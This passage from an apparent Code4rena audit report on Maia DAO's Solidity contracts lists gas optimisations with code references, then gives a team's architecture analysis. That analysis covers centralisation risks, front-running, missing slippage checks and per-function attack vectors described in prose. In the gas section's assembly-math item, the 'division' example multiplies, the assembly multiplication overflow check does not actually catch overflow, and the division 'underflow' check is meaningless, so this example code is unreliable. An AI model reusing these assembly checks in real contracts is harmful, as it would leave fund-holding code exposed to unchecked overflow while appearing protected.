    keccak256(abi.encodePacked(a, b));
}
```

Gas: 313

```
function assemblyHash(uint256 a, uint256 b) public view {
    //optimized
    assembly {
        mstore(0x00, a)
        mstore(0x20, b)
        let hashedVal := keccak256(0x00, 0x40)
    }
} 
```

Gas: 231

```solidity
File: src/erc-20/ERC20MultiVotes.sol
366  keccak256(
                abi.encodePacked(
                    "\x19\x01", DOMAIN_SEPARATOR(), keccak256(abi.encode(DELEGATION_TYPEHASH, delegatee, nonce, expiry))
                )
            ),
```

https://github.com/code-423n4/2023-05-maia/tree/main/src/erc-20/ERC20MultiVotes.sol#L366-L370

```solidity
File: src/governance/GovernorBravoDelegateMaia.sol
198   !timelock.queuedTransactions(keccak256(abi.encode(target, value, signature, data, eta))),

346     keccak256(abi.encode(DOMAIN_TYPEHASH, keccak256(bytes(name)), getChainIdInternal(), address(this)));

347    bytes32 structHash = keccak256(abi.encode(BALLOT_TYPEHASH, proposalId, support));

348    bytes32 digest = keccak256(abi.encodePacked("\x19\x01", domainSeparator, structHash));
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/governance/GovernorBravoDelegateMaia.sol#L346

```solidity
File:  src/uni-v3-staker/libraries/IncentiveId.sol
17    return keccak256(abi.encode(key));
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/uni-v3-staker/libraries/IncentiveId.sol#L17

## [G-21] Loop best practice to save gas

<details>

```
function Plusi() public view {
		for(uint i=0; i<10;) {
			console.log("Number ==",i);
			unchecked{
				++i;
			}
		}
	}

best practice
-----------------------------------------------------
for (uint i = 0; i < length; i = unchecked_inc(i)) {
    // do something that doesn't change the value of i
}

function unchecked_inc(uint i) returns (uint) {
    unchecked {
        return i + 1;
    }
}
```

```solidity
File: src/erc-4626/ERC4626MultiToken.sol
59  unchecked {
      i++;
    }
71  unchecked {
      i++;
    }

82  unchecked {
      i++;
    }

173 unchecked {
      i++;
    }

204 unchecked {
      i++;
    }

218 unchecked {
      i++;
    }

237 unchecked {
      i++;
    }

253 unchecked {
      i++;
    }

```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-4626/ERC4626MultiToken.sol#L59

```solidity
File: src/ulysses-amm/UlyssesPool.sol
197 unchecked {
      i++;
    }

264 unchecked {
      i++;
    }

288 unchecked {
      i++;
    }

930 unchecked {
      i++;
    }

1001 unchecked {
      i++;
    }

1068 unchecked {
      i++;
    }
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-amm/UlyssesPool.sol#L197

</details>

## [G-22]Gas savings can be achieved by changing the model for assigning value to the structure

Here's an example to illustrate this:

```
struct MyStruct {
    uint256 a;
    uint256 b;
    uint256 c;
}

function assignValuesToStruct(uint256 _a, uint256 _b, uint256 _c) public {
    MyStruct memory myStruct = MyStruct(_a, _b, _c);
    // Do something with myStruct
}
```

In this example, we have a simple `MyStruct` data structure with three uint256 fields. The `assignValuesToStruct` function takes three input parameters `_a`, `_b`, and `_c`, and assigns them to the corresponding fields in a new `myStruct` variable. This is done using the struct constructor syntax, which creates a new instance of the `MyStruct` struct with the specified field values.

This approach can be more efficient than assigning values to the struct fields one by one, like this:

```
function assignValuesToStruct(uint256 _a, uint256 _b, uint256 _c) public {
    MyStruct memory myStruct;
    myStruct.a = _a;
    myStruct.b = _b;
    myStruct.c = _c;
    // Do something with myStruct
}
```

In this example, the values of `_a`, `_b`, and `_c` are assigned to the corresponding fields of the `myStruct` variable one by one. This can be less efficient than using the struct constructor syntax, because it requires more memory operations to initialize the struct fields.

By using the struct constructor syntax to assign values to the struct fields, we can save gas by reducing the number of memory operations required to create the struct.

[Reference](https://code4rena.com/reports/2023-01-timeswap#g-06-gas-savings-can-be-achieved-by-changing-the-model-for-assigning-value-to-the-structure-260-gas)

<details>

```solidity
File: src/erc-20/ERC20Boost.sol
131    getUserGaugeBoost[user][msg.sender] =
            GaugeState({userGaugeBoost: userGaugeBoost, totalGaugeBoost: totalSupply.toUint128()});
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-20/ERC20Boost.sol#L131

```solidity
File: src/erc-20/ERC20MultiVotes.sol
253   ckpts.push(Checkpoint({fromBlock: block.number.toUint32(), votes: newWeight.toUint224()}));
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-20/ERC20MultiVotes.sol#L253

```solidity
File: src/rewards/rewards/FlywheelGaugeRewards.sol
189   gaugeQueuedRewards[gauge] = QueuedRewards({
                priorCycleRewards: queuedRewards.priorCycleRewards + completedRewards,
                cycleRewards: uint112(nextRewards),
                storedCycle: currentCycle
            });

228    gaugeQueuedRewards[ERC20(msg.sender)] = QueuedRewards({
            priorCycleRewards: 0,
            cycleRewards: cycleRewardsNext,
            storedCycle: queuedRewards.storedCycle
        });        
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/rewards/rewards/FlywheelGaugeRewards.sol#L189

```solidity
File: src/talos/TalosStrategyStaked.sol
148   INonfungiblePositionManager.CollectParams({
                    tokenId: _tokenId,
                    recipient: address(this),
                    amount0Max: type(uint128).max,
                    amount1Max: type(uint128).max
                })
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/TalosStrategyStaked.sol#L148

```solidity
File: src/talos/TalosStrategyVanilla.sol
108   INonfungiblePositionManager.CollectParams({
                tokenId: _tokenId,
                recipient: address(this),
                amount0Max: type(uint128).max,
                amount1Max: type(uint128).max
            })

142    INonfungiblePositionManager.IncreaseLiquidityParams({
                    tokenId: _tokenId,
                    amount0Desired: balance0,
                    amount1Desired: balance1,
                    amount0Min: 0,
                    amount1Min: 0,
                    deadline: block.timestamp
                })

```

https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/TalosStrategyVanilla.sol#L108

```solidity
File: src/ulysses-omnichain/RootBridgeAgentExecutor.sol
416   dParams = DepositMultipleParams({
            numberOfAssets: numOfAssets,
            depositNonce: nonce,
            hTokens: hTokens,
            tokens: tokens,
            amounts: amounts,
            deposits: deposits,
            toChain: toChain
        });
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/RootBridgeAgentExecutor.sol#L416

</details>

## [G-23] Use `assembly` for math (add, sub, mul, div)

Use `assembly` for math instead of Solidity. You can check for overflow/underflow in `assembly` to ensure safety. If using Solidity versions `<` 0.8.0 and you are using `Safemath`, you can gain significant gas savings by using `assembly` to calculate values and checking for overflow/underflow.

<details>

**Addition:**

```
//addition in Solidity
function addTest(uint256 a, uint256 b) public pure {
    uint256 c = a + b;
}
```

Gas: 303

```
//addition in assembly
function addAssemblyTest(uint256 a, uint256 b) public pure {
    assembly {
        let c := add(a, b)
        if lt(c, a) {
            mstore(0x00, "overflow")
            revert(0x00, 0x20)
        }
    }
}
```

Gas: 263

**Subtraction:**

```
//subtraction in Solidity
function subTest(uint256 a, uint256 b) public pure {
  uint256 c = a - b;
}
```

Gas: 300

```
//subtraction in assembly
function subAssemblyTest(uint256 a, uint256 b) public pure {
    assembly {
        let c := sub(a, b)
        if gt(c, a) {
            mstore(0x00, "underflow")
            revert(0x00, 0x20)
        }
    }
}
```

Gas: 263

**Multiplication:**

```
//multiplication in Solidity
function mulTest(uint256 a, uint256 b) public pure {
    uint256 c = a * b;
}
```

Gas: 325

```
//multiplication in assembly
function mulAssemblyTest(uint256 a, uint256 b) public pure {
    assembly {
        let c := mul(a, b)
        if lt(c, a) {
            mstore(0x00, "overflow")
            revert(0x00, 0x20)
        }
    }
}
```

Gas: 265

**Division:**

```
//division in Solidity
function divTest(uint256 a, uint256 b) public pure {
    uint256 c = a * b;
}
```

Gas: 325

```
//division in assembly
function divAssemblyTest(uint256 a, uint256 b) public pure {
    assembly {
        let c := div(a, b)
        if gt(c, a) {
            mstore(0x00, "underflow")
            revert(0x00, 0x20)
        }
    }
}
```

Gas: 265

```solidity
File: src/erc-20/ERC20Gauges.sol
379    function _add112(uint112 a, uint112 b) private pure returns (uint112) {
        return a + b;
       }
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-20/ERC20Gauges.sol#L379

```solidity
File: src/erc-20/ERC20MultiVotes.sol
73   low = mid + 1;

82   return (a & b) + (a ^ b) / 2;

259  return a + b;
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-20/ERC20MultiVotes.sol#L73

```solidity
File: src/governance/GovernorBravoDelegateMaia.sol
526   uint256 c = a + b;
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/governance/GovernorBravoDelegateMaia.sol#L526

```solidity
File: src/hermes/minters/BaseV2Minter.sol
134   uint256 _required = _growth + newWeeklyEmission;
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/hermes/minters/BaseV2Minter.sol#L134

</details>

## [G-24] Access mappings directly rather than using accessor functions

Saves having to do two `JUMP` instructions, along with stack setup.

```solidity
File: src/erc-20/ERC20Boost.sol
87   return _userGauges[user].values();

108  return _userGauges[user].length();
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-20/ERC20Boost.sol#L87

```solidity
File: src/erc-20/ERC20Gauges.sol
144   return _userGauges[user].values();

165   return _userGauges[user].length();
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-20/ERC20Gauges.sol#L144

```solidity
File: src/erc-20/ERC20MultiVotes.sol
132   return _delegates[delegator].values();

137   return _delegates[delegator].length();
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-20/ERC20MultiVotes.sol#L132

```solidity
File: src/erc-4626/ERC4626.sol
164   return balanceOf[owner];
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-4626/ERC4626.sol#L164

```solidity
File: src/erc-4626/ERC4626MultiToken.sol
285   return balanceOf[owner];
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-4626/ERC4626MultiToken.sol#L285

```solidity
File: src/erc-4626/UlyssesERC4626.sol
121   return balanceOf[owner];
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-4626/UlyssesERC4626.sol#L121

## [G-25] Internal functions that are not called by the contract should be removed to save deployment gas

Internal functions in Solidity are only intended to be invoked within the contract or by other internal functions. If an internal function is not called anywhere within the contract, it serves no purpose and contributes unnecessary overhead during deployment. Removing such functions can lead to substantial gas savings.

```solidity
19     function transferRewards(address _asset, address _rewardsContract) internal returns (uint256 balance)
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/rewards/depots/RewardsDepot.sol#L19

## [G-26] Use mappings instead of arrays

Arrays are useful when you need to maintain an ordered list of data that can be iterated over, but they have a higher gas cost for read and write operations; especially when the size of the array is large. This is because Solidity needs to iterate over the entire array to perform certain operations, such as finding a specific element or deleting an element.

Mappings, on the other hand, are useful when you need to store and access data based on a key, rather than an index. Mappings have a lower gas cost for read and write operations, especially when the size of the mapping is large, since Solidity can perform these operations based on the key directly, without needing to iterate over the entire data structure.

```solidity
File: src/erc-4626/ERC4626MultiToken.sol
23   address[] public assets;

26   uint256[] public weights;
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-4626/ERC4626MultiToken.sol#L23

## [G-27] Use `Short-Circuiting` rules to your advantage

When using logical disjunction (`||`) or logical conjunction (`&&`), make sure to order your functions correctly for optimal gas usage. In logical disjunction (`OR`), if the first function resolves to true, the second one won’t be executed and hence, save you gas. In logical disjunction (`AND`), if the first function evaluates to false, the next function won’t be evaluated. Therefore, you should order your functions accordingly in your solidity code to reduce the probability of needing to evaluate the second function.

```solidity
File: src/erc-20/ERC20Boost.sol
117   if (!_gauges.contains(msg.sender) || _deprecatedGauges.contains(msg.sender)) {

212   if (_deprecatedGauges.contains(gauge) || boost >= gaugeState.userGaugeBoost) {

267   if (gauge == address(0) || !(newAdd || previouslyDeprecated)) revert InvalidGauge();

and so .....
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-20/ERC20Boost.sol#L117

## [G-28] Use `ERC721A` instead `ERC721`

The `ERC721A` is an improvement standard for `ERC721` tokens. It was proposed by the Azuki team and used for developing their NFT collection. Compared with `ERC721`, `ERC721A` is a more gas-efficient standard to mint a lot of NFTs simultaneously. It allows developers to mint multiple NFTs at the same gas price. This has been a great improvement due to Ethereum's sky-rocketing gas fee.

[Reference](https://nextrope.com/erc721-vs-erc721a-2/)

**[0xBugsy (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/842#issuecomment-1633100432)**

***

# Audit Analysis

For this audit, 15 analysis reports were submitted by wardens. An analysis report examines the codebase as a whole, providing observations and advice on such topics as architecture, mechanism, or approach. The [report highlighted below](https://github.com/code-423n4/2023-05-maia-findings/issues/834) by **7e1e** received the top score from the judge.

*The following wardens also submitted reports: [Koolex](https://github.com/code-423n4/2023-05-maia-findings/issues/902), 
[Evo](https://github.com/code-423n4/2023-05-maia-findings/issues/884), 
[Audinarey](https://github.com/code-423n4/2023-05-maia-findings/issues/880), 
[ByteBandits](https://github.com/code-423n4/2023-05-maia-findings/issues/868), 
[Voyvoda](https://github.com/code-423n4/2023-05-maia-findings/issues/840), 
[peanuts](https://github.com/code-423n4/2023-05-maia-findings/issues/809), 
[Qeew](https://github.com/code-423n4/2023-05-maia-findings/issues/653), 
[ltyu](https://github.com/code-423n4/2023-05-maia-findings/issues/597), 
[Madalad](https://github.com/code-423n4/2023-05-maia-findings/issues/590), 
[0xSmartContract](https://github.com/code-423n4/2023-05-maia-findings/issues/587), 
[ABA](https://github.com/code-423n4/2023-05-maia-findings/issues/560), 
[ihtishamsudo](https://github.com/code-423n4/2023-05-maia-findings/issues/531), 
[kodyvim](https://github.com/code-423n4/2023-05-maia-findings/issues/494), 
[pfapostol](https://github.com/code-423n4/2023-05-maia-findings/issues/450) and 
[K42](https://github.com/code-423n4/2023-05-maia-findings/issues/429).*

# MaiaDAO Analysis by RED-LOTUS team

## Table Of Contents

1. GovernanceMaia
2. Hermes
3. Talos
4. Ulysses Accounting Issues
5. Ulysses Omnichain

## Introduction

This analysis report delves into various sections and modules of the MaiaDAO protocol that the RED-LOTUS team audited, specific sections covered are listed within the table of contents above. 

Our approach included a thorough examination and testing of the codebase, research on wider security implications applicable to the protocol and expanded discussion of potential out of scope/known issues from the audit. 

A number of potential issues were identified related to centralization and inherent systemic risks associated with specific functionality of the protocol. We supplied feedback on specific sections of architecture and give other recommendations as relevant. 

Throughout our analysis, we aimed to provide a comprehensive understanding of the codebase and suggested areas for possible improvement. To validate our insights, we supplemented our explanations with illustrative figures, demonstrating robust comprehension of Maia's internal code functionality and interaction with 3rd party services. 

Over the course of the 36-day audit, we dedicated approximately 540+ hours to auditing the codebase. Our ultimate goal is to provide a report that will give the project team wider perspective and value from our research conducted to strengthen the security posture, usability and efficiency of the protocol.

This analysis report and included diagrams are free to be shared with other parties as the project team sees fit.

## GovernanceMaia

1. Analysis of the codebase (What's unique? What's using existing patterns?):

    - *Unique*: This contract carries out specific governance mechanisms that are uniquely designed for its specific use case.
    - *Existing Patterns*: The contract adheres to common contract management patterns, such as the use of `admin`, `pendingAdmin`, and functions for administrative transitions (`_setPendingAdmin`, `_acceptAdmin`).
2. Architecture feedback:

    - *Use of Redundant Functions*: In Solidity 0.8.x, overflow and underflow protection is built-in. Thus, functions like `add256` and `sub256` are redundant and lead to unnecessary gas consumption.
    - *Inline Assembly Usage*: The `getChainIdInternal` function uses inline assembly to fetch the chain ID. While this is a standard operation, caution is required as it bypasses Solidity’s safety checks.
3. Centralization risks:

    - The significant power given to the `admin` role introduces a certain level of centralization risk. If the `admin` key is compromised, it could pose a serious threat to the system.
4. Systemic risks:

    - *External Contract Dependencies*: The contract relies on the `GovernorAlpha` and `timelock` contracts. If any of these contracts have vulnerabilities, it would affect this contract.
    - *Governance Mechanism Security*: The contract’s governance mechanism is critical for its operation. A poorly implemented governance mechanism could lead to system-wide issues.
5. Other recommendations:

    - *Gas Optimization*: Consider removing the `add256` and `sub256` functions for gas optimization since overflow and underflow protections are already present in Solidity 0.8.x.
    - *Consensus Mechanism*: Consider implementing a mechanism for consensus among a group of admins to reduce centralization risk.

### Important Functions

**Function `propose` (`address[]` memory targets, `uint256[]` memory values, `string[]` memory signatures, `bytes[]` memory calldatas, string memory description) public returns (`uint256`).**

### Summary

The `propose` function allows token holders to propose new proposals for changes to the platform's protocol. However, there are certain requirements that need to be met before a proposal can be submitted. The function checks if the Governor Bravo is active, if the proposer has enough votes above the proposal threshold, and if the proposal contains the necessary information. Once these conditions are met, the function creates a new proposal and assigns it a unique proposal ID.

### Relations

- The `propose` function is called by token holders who want to propose a new proposal.
- The function checks if the Governor Bravo is active before allowing the proposal.
- It verifies if the proposer has enough votes above the proposal threshold.
- The function ensures that the proposal contains the required information, such as target addresses, values, signatures, and calldatas.
- It also checks if the number of actions in the proposal is within the allowed limit.
- The function assigns a unique proposal ID to the new proposal.

### Other Functions Called

The `propose` function indirectly interacts with the following functions within the vMaia Governor Bravo contract:

1. `totalSupply()`: This function is called in the `getQuorumVotesAmount()` function to calculate the total supply of the governance token.
2. `govToken.totalSupply()`: This function is called in the `getQuorumVotesAmount()` function to get the total supply of the governance token.
3. `govToken.getPriorVotes()`: This function is called in the `require` statement to check if the proposer has enough votes above the proposal threshold.
4. `isWhitelisted()`: This function is called in the `require` statement to check if the proposer is whitelisted.
5. `add256()`: This function is called to calculate the `startBlock` and `endBlock` values for the new proposal.
6. `emit ProposalCreated()`: This event is emitted after a new proposal is successfully created.

These functions are not directly called within the `propose` function, but they are referenced or used in the requirements and checks performed by the `propose` function.

**Function `castVoteBySig` (`uint256` `proposalId`, `uint8` support, `uint8` v, `bytes32` r, `bytes32` s) external.**

### Summary

The `castVoteBySig` function is an external function within the vMaia Governor Bravo contract. It allows for casting a vote for a proposal using an EIP-712 signature. This function accepts the `proposalID`, the support (yes or no), and the signature parameters (`v`, `r`, `s`). It verifies the signature and then casts the vote for the specified proposal.

### Relations

- The `castVoteBySig` function is an external function that can be called by anyone who wants to cast a vote for a proposal using a signature.
- The function accepts the `proposalID`, support (yes or no), and the signature parameters (`v`, `r`, `s`) as inputs.
- It verifies the signature by calculating the domain separator and comparing it with the provided signature.
- Once the signature is verified, the function casts the vote for the specified proposal.

### People Who Can Cast a Vote

The `castVoteBySig` function does not have any explicit checks on the signatory variable. Therefore, anyone who has access to a valid signature can potentially cast a vote using this function. The function relies on the validity of the signature to ensure that the vote is authorized.

## State Machine

### States:


### Transitions:

**Idle -> ProposalCreated**

- Function: `_propose`
- Attack vectors:
  - Check if the proposal submission checks for the proposal threshold.
  - Validate that user balances or permissions are verified correctly.

 **ProposalCreated -> Voting** - Transition happens automatically after the voting delay has passed.
- Attack vectors:
  - Check if the delay is being enforced properly.
  - Validate timestamp manipulation or block manipulation.

**Voting -> PendingExecution**
*- Function:* `castVote` *(continuously through the voting period)
- Attack vectors:
  - Ensure the user balance is checked accurately at the time of voting.
  - Validate the proper calculation of the votes.
  - Possible double voting attacks.*

**PendingExecution -> Executed** - Function: `_*execute`
- Attack vectors:
  - Ensure that a proposal cannot be executed before it is ready.
  - Validate that a proposal cannot be executed more than once.
  - Ensure proper access control (only the contract should call this usually).

**Idle -> AdminChangingVotingParameters** - Functions: `*_setVotingDelay`, `_*setVotingPeriod` and `*_setProposalThreshold`
- Attack vectors:
  - Validate proper access control; only admin should be allowed.
  - Ensure the parameters being set are within the valid range.
  - Watch for possible governance attacks (admin setting values that cripple the system).

**Idle -> AdminChangingWhitelist** - Functions: `_*setWhitelistAccountExpiration` and `_setWhitelistGuardian`
- Attack vectors:
  - Validate proper access control; only admin or whitelist guardian should be allowed.
  - Validate that the expiration timestamps are set accurately.
  - Watch for possible governance attacks (admin whitelisting malicious accounts).

**Idle -> AdminTransfer** - Function: `_*setPendingAdmin`
- Attack vectors:
  - Validate proper access control; only admin should be allowed.
  - Check that a valid new admin address is provided.

**AdminTransfer -> Idle** - Function:  `_acceptAdmin`
- Attack vectors:
  - Validate proper access control; only pending admin should be allowed.

## Hermes

1. Analysis of the codebase (What’s unique? What’s using existing patterns?):
    - *Unique*: The overall structure of having a parent `bHermes` contract managing three different token contracts (`bHermesBoost`, `bHermesGauges` and `bHermesVotes`), each with different functionalities (boost, gauges, votes) is unique.
    - *Existing Patterns*: The contract uses standard Solidity and Ethereum patterns. It uses the ERC20 standards and Ownable pattern for ownership management. All tokens make use of `onlybHermes` modifier to restrict access.

2. Architecture feedback:
    - *Design Choice*: The separation of functionalities (boost, gauges, votes) into individual contracts and a parent contract (`bHermes`) managing these seems to be a good design choice. It isolates functionalities and makes the codebase cleaner and easier to manage.

3. Centralization risks:
    - `bHermesBoost`, `bHermesGauges`, and `bHermesVotes` contracts have the `onlybHermes` modifier, which implies that only the `bHermes` contract can call certain functions. While this can provide security, it does centralize control to the `bHermes` contract. Also, the `bHermes` contract is owned by `_gaugeBoost` in `UtilityManager`, making the `_gaugeBoost` address the ultimate controller of the system.

4. Systemic risks:
    - *Dependencies*: The contracts are heavily dependent on the behavior of the ERC20 tokens they interact with. Bugs in these contracts could potentially impact the `bHermes` contract as well.
    - *Centralization*: Centralizing control in the `bHermes` contract can be a systemic risk if the contract has bugs or is compromised.

### ERC20Boost/MultiVotes/Gauges Discussion

Front-running issue:

- *Delegating Votes*: In the `ERC20MultiVotes` contract, users have the ability to delegate their tokens to another user.
- *Front-running Scenario*: A front-running vulnerability exists within the `undelegate` function. If a delegatee is alerted to an impending `undelegate` transaction in the `mempool`, they may opt to front-run this transaction.
- *Lock-in Mechanism*: The delegatee could submit their own transaction, providing a higher gas price to allocate tokens to a gauge. This action effectively locks themselves in as the delegatee before the `undelegate` transaction will revert.
- *Risk*: This tactic enables the delegatee to maintain control over the delegated votes, effectively bypassing the undelegation process.

Deprecated Gauges:

- *Decreasing Gauge Inconsistencies*: The `decrementGaugeBoost` function does not operate identically to the `decrementGaugeBoostIndexed` function, particularly with regards to deprecated gauges.
- It is possible to decrement a deprecated gauge using `decrementGaugeBoost`, a capability not afforded by `decrementGaugeBoostIndexed`.

## State Machine

### States:


### Transitions:

**Uninitialized -> Idle** - Transition function: `constructor`
- Attack vectors:
    - Verify that the owner and other initialization parameters are set correctly.
    - Validate that the initialized addresses point to the correct contract addresses.
    - Ensure that the constructor cannot be called more than once.
    - Ensure the initialization of the `gaugeWeight`, `gaugeBoost`, and `governance` contracts does not get front-ran.

**Idle -> Minting** - Transition function: `_mint`
- Attack vectors:
    - Check if the minting function verifies the correct balances.
    - Validate if the minting function correctly updates the state variables and emits the correct events.
    - Ensure the minting function cannot be called by unauthorized entities.

**Idle -> Claiming** - Transition functions: `claimOutstanding`, `claimMultiple`, `claimMultipleAmounts`, `claimWeight`, `claimBoost` and `claimGovernance`
- Attack vectors:
    - Check if the claiming functions check the sender’s balances correctly.
    - Validate if the claiming functions correctly update the state variables and emit the correct events.
    - Ensure the claiming functions cannot be called by unauthorized entities.
    - Unique attack vectors could involve manipulating the amount of utility tokens a user has claimed to gain an unfair advantage or deny others their rightful tokens.

**Idle -> Forfeiting** - Transition functions: `forfeitMultiple`, `forfeitMultipleAmounts`, `forfeitWeight`, `forfeitBoost` and `forfeitGovernance`
- Attack vectors:
    - Verify if the forfeiting functions check the sender’s balances correctly.
    - Validate if the forfeiting functions correctly update the state variables and emit the correct events.
    - Ensure the forfeiting functions cannot be called by unauthorized entities.
    - Unique attack vectors might include forcing a user to forfeit their utility tokens unfairly or creating a system state where tokens can be infinitely minted and forfeited for gain.

**Idle -> Transferring** - Functions: `transfer` and `transferFrom`
- Attack vectors:
    - Verify if the transfer function checks the sender’s balances correctly.
    - Validate if the transfer function correctly updates the state variables and emits the correct events.
    - Ensure the transfer function cannot be called by unauthorized entities.

## Talos

1. Analysis of the codebase (What’s unique? What’s using existing patterns?):
    - *Unique*: Talos leverages the Uniswap V3’s Nonfungible Position Manager, the `BoostAggregator`, for a stake and unstake mechanism, and `FlywheelCoreInstant` for rewards accruals. Talos is designed to handle all of these complex interactions in a single, cohesive framework, which is unique.

2. Architecture feedback:
    -  *Parameter Management*: The functions for updating the contract’s parameters are clear and straightforward. They also include checks to ensure valid parameter ranges.
    - *Fee Calculation*: Talos includes mechanisms for calculating and compounding fees. However, it would be interesting to see how the protocol adjusts its strategy based on external market conditions.
    - There’s a balance in Talos between managing state internally (such as `stakeFlag`, `flywheel`, and `boostAggregator`) and interacting with external contracts (`IUniswapV3Pool`, `BoostAggregator` and `FlywheelCoreInstant`), which is good for separating concerns.
    - It may be beneficial to emit events in the `performUpkeep` function for better off-chain monitoring and tracking of state changes.
    - *Governance*: It might be beneficial to introduce a decentralized governance mechanism for decision making in Talos, reducing centralization risks.

3. Centralization risks:
    - Talos’s behavior can be influenced by the `strategyManager` and `owner` addresses, which introduce a certain level of centralization risk. If these addresses are controlled by a malicious entity, they could disrupt Talos’s operations or perform actions that are not in the best interests of other stakeholders.

4. Systemic risks:
    - *Dependency Risk*: Talos heavily depends on Uniswap’s contracts, Flywheel contracts, and `BoostAggregator` contract. If there are bugs or vulnerabilities in those contracts, or if they change their behavior, it could impact the functioning of Talos.
    - The use of concentrated liquidity in Uniswap V3 means the contract’s liquidity could be unutilized if the market price moves outside the specified price range. Additionally, large market price swings could lead to impermanent loss.
    - *Oracle Failure*: Talos implicitly relies on the Uniswap V3 price oracles (via the Pool contract) for handling positions. Any failure or manipulation of these oracles could have serious impacts.

5. Other recommendations:
    - The constructor could use the ‘Ownable’ contract from OpenZeppelin for setting the `owner` instead of directly setting it via constructor arguments.
    - It might be beneficial to implement a circuit breaker or pause mechanism. This could help in situations where a bug or vulnerability is discovered, allowing contract operations to be halted while the issue is resolved.
    - It would be helpful to have events emitted for major state changes, such as staking/unstaking actions. This can aid off-chain systems in keeping track of contract activities.

### TalosBaseStrategy Discussion

Uniswap Interactions:

- *Slippage Check*: In `init`, `withdrawAll`, and `deposit`, there is no slippage check with `amount0Min` and `amount1Min`. This could result in a loss of funds under certain scenarios and edge cases.
- *User Error*: `redeem` allows users to specify `amount0Min` and `amount1Min`. This is good; however, there is no check to ensure that these values won't result in a loss of funds. In the hands of an inexperienced user, this is no different from setting them to `0`.
- *Front-running Mitigations*: `deadline` is utilizing `block.timestamp`. Although through proof of stake, it is more difficult to manipulate the `block.timestamp`, it is not impossible.
- *Qualitative Analysis*: `(amount0, amount1)` is overwritten with the fees. This does not present a vulnerability; however, in the future, it may cause issues if there are changes.

Share Conversions:

- *Uniswap Help*: `nonfungiblePositionManager.increaseLiquidity` does not use all of the tokens allotted to it. Instead, it adds disproportionate values of each token in a way that keeps the pool balanced. Due to this, Talos is able to utilize the total liquidity added to the pool (`liquidityDifference`) for their share calculations, without measuring the value of each token specifically. Example: User A calls `deposit` with `10e18` for both `amount0Desired` and `amount1Desired`. Suppose the pool only uses 3 of `token0` to pair up with 9 of token 1, then `liquidityDifference = 12`, and we can carry on with the share calculation.

## State Machines

### `TalosManager` States:


### Transitions:

**Idle -> CheckingUpkeep** - Function: `checkUpkeep`
- Attack vectors:
    - Timestamp manipulation affecting TWAP.
    - Incorrect assessment of rebalance or rerange need.

**CheckingUpkeep -> Rebalancing** - Function: `performUpkeep`
- Condition: `getRebalance(strategy) == true`
- Attack vectors:
    - External contract vulnerabilities (in `strategy.rebalance`).

**CheckingUpkeep -> Reranging** - Function: `performUpkeep`
- Condition: `getRerange(strategy) == true`
- Attack vectors:
    - External contract vulnerabilities (in `strategy.rerange`).

**Rebalancing -> Idle** - After executing `strategy.rebalance()`
- Attack vectors:
    - Front-running attacks.

**Reranging -> Idle** - After executing `strategy.rerange()`
- Attack vectors:
    - Front-running attacks.

### `TalosStakedStrategy` States:


### Transitions:

**Initialized -> NotStaked** - Function: `constructor`
- Attack vectors:
    - Check if the initial parameters such as the Uniswap pool, optimizer, `BoostAggregator`, strategy manager, and `Flywheel` are correctly set and validated.
    - Validate that the `BoostAggregator` and `Flywheel` contracts are set up correctly.

**NotStaked -> Staked** - Function: `_stake`
- Transition happens when a user performs actions such as redeeming tokens, making a deposit, or rearranging positions; given there is sufficient liquidity in the pool.
- Attack vectors:
    - Ensure the contract has enough liquidity to stake.
    - Check if the tokens are correctly transferred to the `BoostAggregator`.
    - Validate the update of the `stakeFlag` state.

**Staked -> NotStaked** - Function: `_unstake`
- Transition happens when a user initiates actions that may cause state changes, given there is sufficient liquidity in the pool.
- Attack vectors:
    - Ensure the contract has enough liquidity to unstake.
    - Check if the tokens are correctly unstaked and withdrawn from the `BoostAggregator`.
    - Validate the update of the `stakeFlag` state.

### TalosStrategyVanilla States:


### Transitions:

**Idle -> FeesAccumulating** - Occurs as users trade within the Uniswap V3 pool range set by the strategy.
- Attack vectors:
    - Trades can manipulate the pool price.

**FeesAccumulating -> FeesEarned** - Function: `_earnFees`
- Conditions: Automatically triggered before a position redeem (`beforeRedeem`) or deposit (`beforeDeposit`), or before reranging the position (`beforeRerange`).
- Attack vectors:
    - Contract balance manipulation.

**FeesEarned -> FeesCompounded** - Function: `_compoundFees`
- Conditions: Automatically triggered after a position redeem (`beforeRedeem`) or deposit (`beforeDeposit`).
- Attack vectors:
    - Contract balance manipulation.
    - No slippage protection

**FeesCompounded -> PositionRebalanced** - Occurs when the strategy rebalances or reranges the position.
- Attack vectors:
    - Rebalancing strategies can be manipulated.
    - Contract balance manipulation.

**PositionRebalanced -> Idle** - After the position has been rebalanced and the strategy waits for the next accumulation of fees.
- Attack vectors:
    - Trades can manipulate the pool price.

## Ulysses Accounting Issues

### Accounting Issues

Our audit of the smart contracts in Maia Ecosystem uncovered a critical issue within the Ulysses omnichain component. This issue restricts the interaction of tokens with decimals other than 18. The problem originated from incorrect assumptions made regarding two internal functions: `_normalizeDecimals()` and `_denormalizeDecimals()`. The intended purpose of these functions was to normalize the value of tokens without 18 decimals, enabling their compatibility with Maia's Ulysses omnichain. However, due to improper implementation, other tokens were unable to function properly with the omnichain.

### Demonstration

